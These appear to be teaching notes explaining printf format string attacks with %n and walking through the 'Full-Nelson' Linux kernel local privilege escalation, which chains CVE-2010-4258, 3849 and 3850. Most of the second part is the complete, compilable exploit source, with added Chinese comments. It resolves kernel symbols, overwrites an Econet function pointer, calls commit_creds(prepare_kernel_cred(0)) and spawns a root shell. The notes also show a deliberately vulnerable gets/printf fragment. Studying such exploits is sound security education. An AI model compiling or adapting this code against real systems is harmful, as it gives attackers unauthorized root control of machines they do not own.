

## Topic 1: Format String Attack

### Formatting indicators of printf

We know that most of the formatting indicators are used for format output, such as "%s" and "%d".

While there are some special indicators like "%n".
It calculates how many characters should have been output already at the place it appears in the string and stores it into the next argument.

In the following example, $6$ is stored into $i$.

```C++
int i = 0;
printf("Hello %nworld\n", &i);
printf("i=%d\n", i);
```

### Format string attack

Consider the following fragment from a C program.

```C++
char *s = "Hello World";
printf("%s", s);
```

It can be written as follows as well, because the first argument of $printf$ is a format string, while a string without formatting information is also legal.

```C++
char *s = "Hello World";
printf(s);
```

Then we may do this. Read a string from input and output it with some additional information.

```C++
char s[100], g[100] = "Hello ";
gets(s);
strcat(g, s);
printf(g);
```

However, the input may contain some formatting indicators and the things will change.
The "%n" indicator we mentioned above can overwrite memory. So we can overwrite the return address of the $printf$ function on the stack and jump somewhere else.

The attacker may supply only the format string to $printf$. When $printf$ needs a second parameter, it will take the next value on the stack and use that.
So the attacker can write anything to an address on the stack.

For example, the format string is "%08x %n", and it will write $9$ to the address of second value on the stack.



## Topic 2: 'Full-Nelson.c' Local Privilege Escalation

https://www.exploit-db.com/exploits/15704

This exploit leverages three vulnerabilities to get root, all of which were discovered by Nelson Elhage:

CVE-2010-4258
-------------
This is the interesting one, and the reason I wrote this exploit.  If a thread is created via clone(2) using the CLONE_CHILD_CLEARTID flag, a NULL word will be written to a user-specified pointer when that thread exits. This write is done using put_user(), which ensures the provided destination resides in valid userspace by invoking access_ok().  However, Nelson discovered that when the kernel performs an address limit override via set_fs(KERNEL_DS) and the thread subsequently OOPSes (via BUG, page fault, etc.), this override is not reverted before calling put_user() in the exit path, allowing a user to write a NULL word to an arbitrary kernel address. Note that this issue requires an additional vulnerability to trigger.

CVE-2010-3849
-------------
This is a NULL pointer dereference in the Econet protocol. By itself, it's fairly benign as a local denial-of-service.  It's a perfect candidate to trigger the above issue, since it's reachable via sock_no_sendpage(), which subsequently calls sendmsg under KERNEL_DS.

CVE-2010-3850
-------------
I wouldn't be able to reach the NULL pointer dereference and trigger the OOPS if users weren't able to assign Econet addresses to arbitrary interfaces due to a missing capabilities check.

Code with annotation(some of them are added by us in simplified Chinese)
```C++
/*
 * Linux Kernel <= 2.6.37 local privilege escalation
 * by Dan Rosenberg
 * @djrbliss on twitter
 *
 * Usage:
 * gcc full-nelson.c -o full-nelson
 * ./full-nelson
 *
 * This exploit leverages three vulnerabilities to get root, all of which were
 * discovered by Nelson Elhage:
 *
 * CVE-2010-4258
 * -------------
 * This is the interesting one, and the reason I wrote this exploit.  If a
 * thread is created via clone(2) using the CLONE_CHILD_CLEARTID flag, a NULL
 * word will be written to a user-specified pointer when that thread exits.
 * This write is done using put_user(), which ensures the provided destination
 * resides in valid userspace by invoking access_ok().  However, Nelson
 * discovered that when the kernel performs an address limit override via
 * set_fs(KERNEL_DS) and the thread subsequently OOPSes (via BUG, page fault,
 * etc.), this override is not reverted before calling put_user() in the exit
 * path, allowing a user to write a NULL word to an arbitrary kernel address.
 * Note that this issue requires an additional vulnerability to trigger.
 *
 * CVE-2010-3849
 * -------------
 * This is a NULL pointer dereference in the Econet protocol.  By itself, it's
 * fairly benign as a local denial-of-service.  It's a perfect candidate to
 * trigger the above issue, since it's reachable via sock_no_sendpage(), which
 * subsequently calls sendmsg under KERNEL_DS.
 *
 * CVE-2010-3850
 * -------------
 * I wouldn't be able to reach the NULL pointer dereference and trigger the
 * OOPS if users weren't able to assign Econet addresses to arbitrary
 * interfaces due to a missing capabilities check.
 *
 * In the interest of public safety, this exploit was specifically designed to
 * be limited:
 *
 *  * The particular symbols I resolve are not exported on Slackware or Debian
 *  * Red Hat does not support Econet by default
 *  * CVE-2010-3849 and CVE-2010-3850 have both been patched by Ubuntu and
 *    Debian
 *
 * However, the important issue, CVE-2010-4258, affects everyone, and it would
 * be trivial to find an unpatched DoS under KERNEL_DS and write a slightly
 * more sophisticated version of this that doesn't have the roadblocks I put in
 * to prevent abuse by script kiddies.
 *
 * Tested on unpatched Ubuntu 10.04 kernels, both x86 and x86-64.
 *
 * NOTE: the exploit process will deadlock and stay in a zombie state after you
 * exit your root shell because the Econet thread OOPSes while holding the
 * Econet mutex.  It wouldn't be too hard to fix this up, but I didn't bother.
 *
 * Greets to spender, taviso, stealth, pipacs, jono, kees, and bla
 */
 
#include <stdio.h>
#include <sys/socket.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <string.h>
#include <net/if.h>
#include <sched.h>
#include <stdlib.h>
#include <signal.h>
#include <sys/utsname.h>
#include <sys/mman.h>
#include <unistd.h>
 
/* How many bytes should we clear in our
 * function pointer to put it into userspace? */
#ifdef __x86_64__
#define SHIFT 24
#define OFFSET 3
#else
#define SHIFT 8
#define OFFSET 1
#endif
 
/* thanks spender... */
unsigned long get_kernel_sym(char *name)//找到内核中函数的地址 gcc编译内核时决定的
{
       FILE *f;
       unsigned long addr;
       char dummy;
       char sname[512];
       struct utsname ver;
       int ret;
       int rep = 0;
       int oldstyle = 0;
 
       f = fopen("/proc/kallsyms", "r");//（不一定能看到）
       if (f == NULL) {
               f = fopen("/proc/ksyms", "r");//尝试读ksymbols
               if (f == NULL)
                       goto fallback;
               oldstyle = 1;
       }
 
repeat:
       ret = 0;
       while(ret != EOF) {
               if (!oldstyle)
                       ret = fscanf(f, "%p %c %sn", (void **)&addr, &dummy, sname);
               else {
                       ret = fscanf(f, "%p %sn", (void **)&addr, sname);
                       if (ret == 2) {
                               char *p;
                               if (strstr(sname, "_O/") || strstr(sname, "_S."))
                                       continue;
                               p = strrchr(sname, '_');
                               if (p > ((char *)sname + 5) && !strncmp(p - 3, "smp", 3)) {
                                       p = p - 4;
                                       while (p > (char *)sname && *(p - 1) == '_')
                                               p--;
                                       *p = '\0';
                               }
                       }
               }
               if (ret == 0) {
                       fscanf(f, "%sn", sname);
                       continue;
               }
               if (!strcmp(name, sname)) {
                       fprintf(stdout, " [+] Resolved %s to %p%sn", name, (void *)addr, rep ? " (via System.map)" : "");
                       fclose(f);
                       return addr;
               }
       }
 
       fclose(f);
       if (rep)
               return 0;
fallback:
       uname(&ver);
       if (strncmp(ver.release, "2.6", 3))
               oldstyle = 1;
       sprintf(sname, "/boot/System.map-%s", ver.release);
       f = fopen(sname, "r");
       if (f == NULL)
               return 0;
       rep = 1;
       goto repeat;
}
 
typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
_commit_creds commit_creds;
_prepare_kernel_cred prepare_kernel_cred;
 
static int __attribute__((regparm(3)))
getroot(void * file, void * vma)
{
 
       commit_creds(prepare_kernel_cred(0));//尝试将自己的权限设置为root
       return -1;
 
}
 
/* Why do I do this?  Because on x86-64, the address of
 * commit_creds and prepare_kernel_cred are loaded relative
 * to rip, which means I can't just copy the above payload
 * into my landing area. */
void __attribute__((regparm(3)))
trampoline()
{
 
#ifdef __x86_64__
       asm("mov $getroot, %rax; call *%rax;");
#else
       asm("mov $getroot, %eax; call *%eax;");
#endif
 
}
 
/* Triggers a NULL pointer dereference in econet_sendmsg
 * via sock_no_sendpage, so it's under KERNEL_DS */
int trigger(int * fildes)
{
       int ret;
       struct ifreq ifr;
 
       memset(&ifr, 0, sizeof(ifr));
       strncpy(ifr.ifr_name, "eth0", IFNAMSIZ);
 
       ret = ioctl(fildes[2], SIOCSIFADDR, &ifr);
 
       if(ret < 0) {
               printf("[*] Failed to set Econet address.n");
               return -1;
       }
       //传数据 用splice的原因：在kernel态
       splice(fildes[3], NULL, fildes[1], NULL, 128, 0);
       splice(fildes[0], NULL, fildes[2], NULL, 128, 0);
       //往有缺陷的socket写数据导致崩溃，splice操作在kernel态，崩溃后利用clone把target清零

       /* Shouldn't get here... */
       exit(0);
}
 
int main(int argc, char * argv[])
{
       unsigned long econet_ops, econet_ioctl, target, landing;
       int fildes[4], pid;
       void * newstack, * payload;
 
       /* Create file descriptors now so there are two
          references to them after cloning...otherwise
          the child will never return because it
          deadlocks when trying to unlock various
          mutexes after OOPSing */
       
       pipe(fildes);
       fildes[2] = socket(PF_ECONET, SOCK_DGRAM, 0);//PF_ECONET参数表明使用ECONET提供的open/close/read/write

       fildes[3] = open("/dev/zero", O_RDONLY);
 
       if(fildes[0] < 0 || fildes[1] < 0 || fildes[2] < 0 || fildes[3] < 0) {
               printf("[*] Failed to open file descriptors.n");
               return -1;
       }
 
       /* Resolve addresses of relevant symbols */
       printf("[*] Resolving kernel addresses...n");
       econet_ioctl = get_kernel_sym("econet_ioctl");
       econet_ops = get_kernel_sym("econet_ops");
       commit_creds = (_commit_creds) get_kernel_sym("commit_creds");//修改当前进程的用户身份
       prepare_kernel_cred = (_prepare_kernel_cred) get_kernel_sym("prepare_kernel_cred");
 
       if(!econet_ioctl || !commit_creds || !prepare_kernel_cred || !econet_ops) {
               printf("[*] Failed to resolve kernel symbols.n");
               return -1;
       }
 
       if(!(newstack = malloc(65536))) {
               printf("[*] Failed to allocate memory.n");
               return -1;
       }
 
       printf("[*] Calculating target...n");
       target = econet_ops + 10 * sizeof(void *) - OFFSET;
 
       /* Clear the higher bits */
       landing = econet_ioctl << SHIFT >> SHIFT;
    
       payload = mmap((void *)(landing & ~0xfff), 2 * 4096,
                      PROT_READ | PROT_WRITE | PROT_EXEC,
                      MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, 0, 0);
 
       if ((long)payload == -1) {
               printf("[*] Failed to mmap() at target address.n");
               return -1;
       }
 
       memcpy((void *)landing, &trampoline, 1024);
 
       clone((int (*)(void *))trigger,
             (void *)((unsigned long)newstack + 65536),
             CLONE_VM | CLONE_CHILD_CLEARTID | SIGCHLD,
             &fildes, NULL, NULL, target);//trigger：扮演线程的函数；最后一个参数本来应该是子线程地址，这里的target说明clone结束的时候会在这里滞留
       
       sleep(1);//休息一秒钟 到此时IOCTL的代码地址被修改指向get_root，之后通过调用IOCTL来调用getroot获得root权限
 
       printf("[*] Triggering payload...n");
       ioctl(fildes[2], 0, NULL);
 
       if(getuid()) {//自己读自己当前的user的身份，如果是0（root）成功，如果不是0则失败
               printf("[*] Exploit failed to get root.n");
               return -1;
       }
 
       printf("[*] Got root!n");
       execl("/bin/sh", "/bin/sh", NULL);
}
/*
```
